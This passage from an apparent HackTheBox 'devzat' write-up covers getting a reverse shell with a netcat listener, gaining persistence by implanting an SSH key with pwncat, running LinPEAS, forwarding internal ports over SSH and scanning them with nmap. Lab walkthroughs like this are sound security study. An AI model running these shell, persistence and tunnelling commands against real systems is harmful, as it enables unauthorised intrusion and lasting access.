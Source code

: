 Start a listener with netcat with `nc -nvlp 17344` or use `pwncat`. This gives us a reverse shell connection to the user `patrick`. We can get persistance with `run implant.authorized_key key=/home/kali/.ssh/id_rsa` in `pwncat`. Now, we can connect with `ssh -i /home/kali/.ssh/id_rsa patrick@devzat.htb`.

There is no `user.txt` in `patrick`'s home directory. However, `cat /etc/passwd` shows another user `catherine` with uid `1001`.

## Lateral Movement

Let's upload LinPEAS with `upload linpeas.sh` and then run it with `bash linpeas.sh`.

Under the "Active Ports" section we see two unknown ports with services running locally: `8086` and `8443`.

```
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                  
tcp        0      0 127.0.0.1:8086          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      868/./petshop       
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::8000                 :::*                    LISTEN      872/./devchat
```

We can forward these to our attacker machine and investigate them using `nmap`. Let's first forward them using `SSH`: `ssh -i /home/kali/.ssh/id_rsa -L 8443:localhost:8443 -L 8086:localhost:8086 patrick@devzat.htb`.

Let's scan with `nmap`: `nmap -sC -sV  -p8443,8086 localhost`:

```
PORT     STATE SERVICE VERSION
8086/tcp open  http    InfluxDB http admin 1.7.5
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
8443/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  256 66:61:73:b4:a2:9c:b1:b7:a9:81:7a:6e:1d:5d:fc:ec (ED25519)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8443-TCP:V=7.92%I=7%D=2/18%Time=620F2EF9%P=x86_64-pc-linux-gnu%r(NU
SF:LL,C,"SSH-2\.0-Go\r\n");

```

